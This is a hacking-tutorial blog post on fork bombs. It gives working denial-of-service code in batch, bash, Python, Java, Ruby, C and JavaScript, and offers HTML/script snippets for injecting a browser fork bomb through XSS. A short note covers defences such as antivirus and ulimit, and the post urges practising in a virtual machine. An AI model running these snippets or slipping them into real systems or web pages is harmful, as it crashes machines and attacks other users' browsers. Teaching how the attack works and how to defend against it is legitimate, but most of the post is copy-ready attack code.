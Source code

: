 ```yaml
---
title: Fork Bomb, a Classic Attack
path: /fork-bomb
tags:
  - Cyber Security
metaImage: assets/fork-bomb.jpeg
featuredImage: ./assets/fork-bomb.jpeg
excerpt: The fork bomb is the equivalent of a DDoS attack on your own system. It
  aims to deprive the system of memory (RAM), leaving nothing for other
  applications or the operating system’s vital operations required to keep the
  systems running, hence crashing it
created: 2020-06-10T10:25:52.465Z
updated: 2020-06-10T10:25:52.527Z
---
```

The **fork bomb**is the equivalent of a DDoS attack on your own system. It aims to deprive the system of memory (RAM), leaving nothing for other applications or the operating system’s vital operations required to keep the systems running, hence crashing it. Just 5 characters long, the fork bomb is not permanently harmful for a computer, just annoying.

We’re now going to build on the [introduction to batch files](https://blog.leewardslope.com/introduction-to-batch-file-viruses). Make sure you’ve got a [VM all set up and running](https://blog.leewardslope.com/setting-up-a-virtual-machine-to-practice-hacking).

And here is the fork bomb:

```powershell
%0|%0
```

Yes, this is it. The above is a shorter alternative for the following more comprehensible code:

```powershell
:s
start %0
goto s
```

* Here, the first line creates a label `s`.
* `%0` actually refers to the name of the batch file itself. By `start %0` we’re running the same file again.
* And finally `goto s` brings us back to the top, forming a loop.

So every time the loop is run another instance of the same program is started and then both of them run together and again duplicate themselves and so on.

![fork bomb](assets/forkbomb.png "fork bomb")

Every program doubling itself is a form of exponential growth. After one iteration of the loop, two programs (21) are created. After another cycle, each of those two create another two for a total of four (22). After 10 iterations we have 1024 (210) instances of our little batch file. After 100 iterations we have 2100=**1.267 nonillion**, a number so big you don’t even know what ‘nonillion’ is (It’s 1030).

The first instance will likely not even complete 50 iterations before the system grinds to a halt and crashes. For such a simple script, each individual iteration would hardly take a few milliseconds, so the first few iterations complete very quickly and soon it becomes more than what the computer can handle.

Is there a way to protect against fork bombs? Yup.

Any antivirus worth it’s salt would be able to scan this suspicious executable file and warn the user before execution. As a fork bomb’s mode of operation is entirely dependent on being able to create new processes, one way of preventing a fork bomb from severely affecting the entire system is to limit the maximum number of processes that a single user may own. On Linux, this can be achieved by using the *ulimit* utility; for example, the command `ulimit -u 30` would limit the affected user to a maximum of thirty owned processes.

And so we have our first little virus under our belt. Head over to[ the next one](https://blog.leewardslope.com/application-flooder) to continue or scroll down if you’re interested in checking out the code for fork bomb in other common languages.

* Bash

  ```shellsession
  :(){ :|:& };:
  ```
* Python

  ```python
   import os
   while 1:
       os.fork()
  ```
* Java

  ```
  public class ForkBomb
  {
    public static void main(String[] args)
    {
      while(true)
      {
        Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
      }
    }
  }
  ```
* Ruby

  ```ruby
  loop { fork { load(__FILE__) } }
  ```
* C

  ```c
  #include <unistd.h>

  int main(void)
  {
      while(1) {
        fork(); /* malloc can be used in order to increase the data usage */
      }
  }
  ```
* JavaScript

  ```javascript
  while (true) {
    var w = window.open();
    w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
  }
  ```

  The following version is easier for injection (XSS):

  ```shellsession
  <a href="#" onload="function() { while (true) { var w = window.open(); w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML); } }">XSS fork bomb</a>
  ```

  And the following is simply a more aggressive version of the above:

  ```shellsession
  <script>
  setInterval(function() {
    var w = window.open();
    w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
  }, 10);
  </script>
  ```

  And so we have our first little virus under our belt. Let's head over to [the next one](https://blog.leewardslope.comapplication-flooder) to continue